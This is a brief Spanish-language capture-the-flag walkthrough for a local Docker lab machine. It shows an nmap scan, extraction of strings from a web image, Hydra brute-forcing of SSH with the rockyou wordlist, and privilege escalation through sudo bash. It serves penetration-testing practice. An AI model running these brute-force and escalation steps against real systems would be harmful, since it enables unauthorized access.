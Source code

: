 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![[Pasted image 20250131105151.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250131105319.png]]

Nos metemos en la web:

![[Pasted image 20250131105920.png]]

Descargamos imagen:

![[Pasted image 20250131105905.png]]

Buscamos cadenas con **strings**:

```
strings imagen.jpeg
```

![[Pasted image 20250131110034.png]]

Fuerza Bruta con **Hydra**:

```Bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20250131110218.png]]

Nos conectamos con **SSH**:

```
ssh borazuwarah@172.17.0.2
```

![[Pasted image 20250131110247.png]]

Elevamos privilegios:

```
sudo -l
```

![[Pasted image 20250131110321.png]]

```
sudo bash
```

![[Pasted image 20250131110401.png]]

```
whoami
```

![[Pasted image 20250131110425.png]]
